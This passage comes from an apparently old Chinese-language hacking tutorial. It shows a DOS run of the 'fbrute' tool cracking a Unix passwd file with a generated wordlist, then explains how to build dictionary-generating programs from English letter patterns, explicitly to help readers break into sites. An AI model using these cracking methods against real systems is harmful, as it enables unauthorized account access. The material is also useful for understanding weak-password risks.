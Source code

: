 ```bash
C:\hack>
```

(这样就好了 ! 自动产生的档案会放在 dic.cfe 这个档案中, 咱们跑一下 Brute Force
看看!)

```bash
C:\hack>fbrute passwd @dic.cfe

BRUTE!, Unix Brute Force Hacking Routine. v2.0
Copyright (C) 1990, Prometheus. DOS-fastcrypt made available by sir hackalot.

Attempts/Hits: 5184/9

Taking list input from dic.cfe
Beginning search of passwd for password: xxx

Match for password xxxxxx found! Username: xxxxxx
Match for password xxxxx found! Username: xxxxx
Match for password xxx found! Username: xxx
Match for password xxxxxx found! Username: xxxxxx
Match for password xxxxxx found! Username: xxxxxx
Match for password coffee found! Username: coffee
Match for password xxxxxxx found! Username: xxxxxxx
Match for password xxx found! Username: xxx
Match for password xxxx found! Username: xxxx

Done.

C:\hack>
```

看! 除了 coffee 外还是有许多人使用与 ID 相同的字作为密码, 实在是....@#$%^...&*
因某些关系所以其它部份要被 "马赛克" 起来, 请各位读者见量!

**再谈密码**

看了以上的破解示范, 就可以了解到许多人还是对於 "密码" 这东西不是很有 "密码" 的观念, 人就是那麽的懒, 随便设定一个好记的, 但是这种密码确是最不安全的, 上次我们谈到如何用 QBasic 来设计一个自动产生密码的小程式, 相信对许多人有很大的帮助, 底下我们再来浅显的介绍一下字母密码的产生方法, 相信对於你在 Hack 某站会有更大的帮助.

事情的开始是有一位网友 mail 给我, 问我字典档要如何写程式来 "自动扩大", 而让我有了写这一段的想法, 现在我就针对这位网友的问题作一个更详细的说明 (因已简短回信答覆), 并且写出来让大家了解一下, 当然我们的示范还是使用 QBasic, 因为这是最容易找到的程式了, 而且语法大家也可能会比较熟悉一点, 如果我使用 VB 或 C 来写, 可能有些人只会拿去用, 而不会去修改或者写个好一点的出来!

先说明一下原理好了: 我们所要作的程式是一个自动产生字典档的程式, 所以我们要了解字的字母排列到底有哪些方法可循?? 我们先举几个简单的单字出来比较看看:

[1] apple [2] guest [3] james [4] superman [5] password

OK! 来看看! 如果你有一点英文的概念的话应该会知道母音及子音吧 !  
我们首先这样说明: 母音在英文上有 : A E I O U 这五个, 所有的英文单字都会有这些母音(有些没有的可能是专有名词或缩写), 也有可能是双母音的字, 如: au, ai, ea, ei, ia, ie, ou, oe, ui, ua... 等, 再来就是比较每个字的开头, 有可能是母音, 也有可能是子音, 但是子音之後通常接的是母音字母, 但是也有例外, 如: student 是两个子音再接一个母音字母, 所以接下来依照常用字将这些子音找出来, 我想了一下大概有: br, bl, cl, dg, dr, fl, gr, kn, ph, st, sp, wh .... 等几种(其它请自行统计), 然後是结尾部份, 通常结尾部分有下列几种: e;
est; ord; ard; ls; es; s... 等好多好多, 我们稍为思考一下就知道要如何写出这样的程式出来了 !!  
我大略写一个简单的, 其它大家自行发挥, 如果有人学语言学的, 请帮忙弄一份常用组合表出来, 可能会更有帮助吧 !!
